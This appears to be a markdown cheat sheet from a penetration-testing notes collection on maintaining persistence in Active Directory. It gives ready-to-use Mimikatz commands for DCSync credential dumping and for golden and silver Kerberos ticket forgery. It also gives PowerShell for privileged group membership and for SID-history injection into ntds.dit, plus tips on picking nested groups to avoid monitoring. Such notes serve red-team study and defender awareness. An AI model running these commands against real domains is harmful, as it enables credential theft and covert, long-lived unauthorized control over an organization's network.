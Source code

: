```yaml
---
title: Active Directory persistence
---
```


- [1. DC Sync](#1-dc-sync)
- [2. Golden Ticket](#2-golden-ticket)
- [3. Silver Ticket](#3-silver-ticket)
- [4. Certificates](#4-certificates)
- [5. Group Membership](#5-group-membership)
- [6. SID History](#6-sid-history)
- [7. Group Templates](#7-group-templates)
- [8. GPO](#8-gpo)

## 1. DC Sync
The more privileged credentials are, the sonner they will be rotated after breach detection. The goal then is to persist with near-privileged credentials, not with a super-user:

- Local administrator on several machines - usually there is a group or two with local admin rights on almost all machines.
- Service accounts with delegation permissions - with this accounts it's possible to force golden and silver tickets to perform Kerberos delegation attacks.
- Privileged AD services accounts

It is not just the DCs that can initiate DC Synchronization. Accounts such as those belonging to the _Domain Admins_ groups can also do it for legitimate purposes such as creating a new domain controller. If our account has permission to perform DC Synchronization, we can stage a DC Sync attack to harvest credentials from a DC.

```powershell
.\mimikatz.exe

# Dump for single user
> lsadump::dcsync /domain:<DOMAIN> /user:<AD_USERNAME>

# Dump all users to the file
> log <DUMP_FILE.TXT>
> lsadump::dcsync /domain:<DOMAIN> /all
```

## 2. Golden Ticket
_Golden Ticket_ is forged TGT of high privileged account. The authorization step is bypassed. Having a valid TGT of a privileged account, an attacker can request a TGS for almost any service. DC doesn't perform user account validation until the TGT is older than 20 minutes so a revoked account can be used as well. User's password change has no effect on this attack.

In order to forge a golden ticket `krbtgt` account's password hash is required. With this hash an attacker can sign a TGT for any user account. By default, the `krbtgt` account's password never changes, meaning once hacked, unless it is manually rotated, it's possible to generate TGTs forever.

Required information to forge Golden Ticket:

- `krbtgt` account's password hash
- domain name
- domain SID
- user ID

> **NOTE**: `krbtgt` hash is an NT (RC4 + HMAC) hash. It can be extracted from the lsass or a SAM file of a Domain Controller.

```powershell
# Mimikatz - forge Golden Ticket
> kerberos::golden /user:<ACCOUNT> /domain:<DOMAIN_FQDN> /id:500 /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_NT> /endin:600 /ptt

# Check if it works
dir \\dc\C$\
```

Structure of the Mimikatz command:

```plaintext
kerberos::golden        - Mimikatz module
/user:<ACCOUNT>         - User for which the TGT is generated
/domain:<DOMAIN_FQDN>   - Domain FQDN
/sid:<DOMAIN_SID>       - Domain SID
/krbtgt:<KRBTGT_NT>     - krbtgt's NT hash. Other: /aes128, /aes256
/endin:<INT>            - ticket lifetime in minutes (10 years by default)
/ptt                    - pass-the-ticket (inject into memory). Other: /ticket (save to the file)
```

## 3. Silver Ticket
_Silver Ticket_ is forged TGS of some interesting service. TGS is signed by the machine account of the target host. `CIFS` service is a safe service because it allows file access. TBD

```powershell
# Mimikatz - forge Silver Ticket
> kerberos::golden /admin:<ACCOUNT> /domain:<DOMAIN> /id:500 /sid:<DOMAIN_SID> /target:<DOMAIN-HOSTNAME> /rc4:<TARGET_MACHINE_NTLM_HASH> /service:cifs /ptt
```

## 4. Certificates
TBD

## 5. Group Membership
We can just add ourselves directly to privileged AD groups for persistence.  Remember, the most privileged groups are not always the best to use for persistence. They are always monitored. In large organizations groups are usually nested. Groups contain groups and so on. For example, an interesting "IT Support" group might have multiple subgroups with the same privileges. Here's the reduced visibility for monitoring systems. It can be exploited to achive more silent persistence.

```powershell
# Add group member
Add-ADGroupMember -Identity <GROUP> -Members <USER>
```

## 6. SID History
SIDs history of Security Principal allows for one account to be attached to another. It basically have all the privileges of the SIDs included in the SID history. It's especially used during migration, when a new account on a new domain could have the SID history of an old account to retain access of the old domain.

It might be used in order to establish persistence in the domain. Groups' SIDs can be assigned to a user's SID history as well. This technique is a lot harder to detect than just a simple group membership persistence.

```powershell
# Get SID history
Get-ADUser <USER> -Properties name,sidhistory

# Get group's SID
Get-ADGroup <GROUP>

# Modify SID history
Import-Moduls DSInternals
Stop-Service ntds -Force
Add-ADDBSidHistory -SamAccountName <USER> -SidHistory <SID> -DatabasePath 'C:\Windows\NTDS\ntds.dit'
Start-Service ntds
```

## 7. Group Templates
Group templates are objects which privileges are copied to some AD groups constantly (e.g. every hour). `SDProp` process takes the ACL of the `AdminSDHolder` object and applies it to all protected groups every 60 minutes. List of protected groups contains: `Administrators`, `Domain Admins`, `Schema Admins`, `Enterprise Admins` and more. By default, `AdminSDHolder` ACL is very restrictive. By modifing ACL of this object (injecting special ACEs), an attacker can change ACLs of all protected groups in the domain and gain full permissions to them.  

## 8. GPO
GPOs are excellent tool for remote management but they can be targeted to deploy persistence. Some GPO hooks are especially interesting from the attacker's point of view:

- `Restricted Group Membership` - allows to give administrative access to all hosts in the domain.
- `Logon Script Deployment` - allows to execute script (e.g. reverse shell) on every logon.
- and more.
